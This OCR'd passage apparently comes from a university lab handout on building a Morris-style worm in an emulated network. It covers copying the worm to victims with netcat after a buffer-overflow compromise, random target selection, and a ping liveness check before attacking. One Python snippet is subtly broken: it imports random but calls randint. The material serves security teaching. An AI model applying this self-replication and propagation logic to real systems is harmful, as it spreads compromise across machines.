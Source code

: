 // Server gets the file from client
$ nc -lnv 8080 > myfile

// Client provides the file
$ cat myfile | nc -w5 <server_ip> 8080

Lab task. Add the self-duplication feature to your worm, so when the buffer-overflow attack is successful,
a copy of the worm, i.e.,worm.pyis copied to the victim machine. You can get a shell on the victim
container, and check whether a copy is created there or not.

## 6 Task 4: Propagation

After finishing the previous task, we can get the worm to crawl from our computer to the first target, but
the worm will not keep crawling. Students need to make changes toworm.pyso the worm can continue
crawling after it arrives on a newly compromised machine.
Several places inworm.pyneed to be changed. One of them is thegetNextTarget(), which hard-
codes the IP address of the next target. We would like this target addresses to be a new machine. The
Morris worm uses several strategies to find the next attack candidate. For the sake of simplicity, students
just need to randomly generate an IP address. To further reduce the attack time, we provide the following
prior knowledge (intentionally made vague) for students to use when they generate the IP address for the
next target:

```
The IP addresses of all the hosts in the emulator have the following pattern:10.X.0.Y, where
Xranges from 151 to 155 , andYranges from 70 to 80.
```

Generating random numbers. In Python, generating random numbers is quite simple. The following
code gives an example: it generates a random integer number from 100 to 200.

from random import random

number = randint(100, 200)

Testing whether a machine is alive or not. Before attacking a randomly selected target, it is better to
check whether the target is alive or not. There are many ways to do that. One approach is to use theping
command to send an echo request to the target, and check whether the target has sent back a reply.
In the following code snippet, we send out one ping packet (-c1) to the target1.2.3.4, wait one
second (-W1) for the reply, and then check whether the output of the command contains"1 received",
indicating that the reply has been received.

ipaddr = ’1.2.3.4’
output = subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
result = output.find(b’1 received’)

if result == -1:
print(f"{ipaddr} is not alive", flush=True)
else:
print(f"*** {ipaddr} is alive, launch the attack", flush=True)
